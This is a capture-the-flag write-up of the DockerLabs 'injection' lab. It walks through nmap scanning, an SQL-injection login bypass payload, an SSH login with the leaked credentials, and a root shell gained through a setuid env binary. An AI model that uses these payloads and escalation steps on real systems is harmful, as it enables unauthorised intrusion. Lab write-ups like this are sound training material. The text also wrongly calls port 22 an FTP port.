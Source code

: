 # Write Up First Hacking

**Difficulty:** Super fáil<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the injection folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
The first thing that we do is a general reconnaissance with nmap over the victym machine, with the purpose to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Once we have obtained the open ports we can do an exhaustive scan with recon scripts with the purpose to obtain the services that are running on each port and their's version.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

In this way we discovered that the service running on port 22 (FTP port) is OpenSSH 8.9p1 and on port 80 (http port) an Apache httpd 2.4.52 web service is running.

## Exploit
As we have seen that there is a web service running on the victim machine, we proceed to view the web, adding the domain (in this case it does not have one and we will simply put the name of the machine) to the */etc/hosts* file of our virtual machine (it is the local DNS configuration file).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once the */etc/hosts* file is configured, we proceed to access the website, and we see that it is a login form.

![alt text](image.png)

Let's try entering the basic parameters to check for SQL injection. To do this, enter the string *admin' OR '1' = '1'; --* in the username section and anything else for password (in my case, I put *hacked!*) to allow the form to be submitted. If everything goes well, you'll be able to log in as the administrator (if it doesn't work with the admin user, you can change it to root, administrator, and similar, but without wasting too much time).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

And bingo! We're in and we get Dylan's credentials.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Having obtained these credentials, we can try to access through the also open ssh port.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

And we alredy get access to the machine!

## Privilege escalation

To be able to use the console in a more comfortable way we can do the following treatment of the terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Now that we have a terminal we look for files (preferably binary) with the root user and the *setuid* flag active and we find the following:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

So we use the env command as follows and elevate privileges to root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```